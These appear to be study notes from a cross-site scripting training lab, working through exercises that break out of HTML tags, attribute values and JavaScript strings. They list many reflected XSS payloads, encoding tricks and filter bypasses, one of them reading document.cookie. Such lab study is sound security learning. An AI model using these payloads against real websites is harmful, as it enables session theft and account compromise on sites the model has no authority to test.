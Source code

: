 •	xss-payload-list
•	Training-XSS-muscles XSS Gym Exercises
•	Exercise 01 Injection in Title Tag
o	If payload not reflecting in browser, then try to close tags.
o	Find the first tag which is closing after ur payload. (Which contains ‘</tag>’)
o	Copy it and put before ur payload: “</tag><script>alert(1)</script>asdf”
o	</title><script>alert(1)</script><u>asdf
o	Exercise 02: </noscript><script>alert(1)</script>asdf
o	Exercise 03: </style><script>alert(1)</script>asdf
o	Exercise 05: </h1><script>alert(1)</script>asdf
•	Exercise 04 Filtered Injection Inside Event Handler
o	onload="doSomething('asdf')
o	Here there is a function dosomething
	if (arg !== '') console.log("arg as " + arg + ".")
o	Encode ‘ to HTML>URL= %26%23%78%32%37%3b
	Now check it inside in console in Inspector
	So there is a syntax error
o	So we need to create payload like
	asdf’-alert(1)-‘ encode ‘ in HTML>URL
	asdf%26%23x27%3b-alert(1)- %26%23x27%3b
o	%26%23x27%3b-alert(1)-%26%23x27%3b
•	Exercise 06 Injection in Attribute Value – Double Quote Delimiter
o	If the payload reflecting inside the html (<input type="hidden" name="p06" value="asdf">) so first, we need to exit from this input tag.
o	So we need to use “> before payload to get out from it.
o	asdf"><script>alert(1)</script>
o	Exercise 07: asdf'><script>alert(1)</script>
•	Exercise 08 Filtered Injection in Attribute Value – Double Quote Delimiter
o	When payload not able to get out from html by using this “>
o	Then use this input: asdf" onmouseover="alert(1)
o	<input type= "text" name="p08" value="asdf" onmouseover="alert(1)”>
o	And also, we are now closing with “ because it’s getting from server side.
o	and we need to encode space with +, because BurpSuite doesn’t supports space.
o	asdf"+onmouseover="alert(1)
o	another way is to use focus and auto focus, alert when click on the value.
o	asdf”+onfocus= "alert(1)
o	asdf"+autofocus+onfocus= "alert(1)
o	Exercise 09: we can close tags with + and //
	asdf’+onmouseover=’alert(1)
	asdf’+onfocus=’alert(1)+
	asdf’+autofocus+onfocus=‘alert(1)//
•	Exercise 10 Injection in Textarea Tag 
o	</textarea>asdf<script>alert(1)</script>
o	asdf</textarea><script>alert(1)</script>
•	Exercise 11 Injection in Script Tag – Single Quote Delimiter
o	</script>asdf<script>alert(1)</script>
o	Exercise 11: asdf</script><img+src=x+onerror=confirm(1)>
o	In case () getting error: asdf</script><img+src=x+onerror=confirm`1`>
o	Exercise 12: asdf</script><img+src=x+onerror=confirm(document.cookie)>
•	Exercise 13 Injection in Javascript Variable – Single Quote Delimiter
o	<script>
   var p13 = ‘asdf’;
</script>
o	In this case where value reflecting inside the java script and in “ and ‘ then 
o	use asdf’;alert(1);//so will get reflects  var p13 = ‘asdf’;alert(1);//’;
o	if ; not allow then, asdf’-alert(1)-‘ or asdf’-alert(1)//
o	Exercise 14: asdf"-alert(1)-"
•	Exercise 15 Filtered Injection in Javascript Variable – Single Quote Delimiter
o	asdf\'-alert(1)-//
o	used // to convert ‘; into comment
o	Exercise 16: asdf\";alert(1)//
o	Exercise 17: asdf</script><svg+onload=prompt(1)>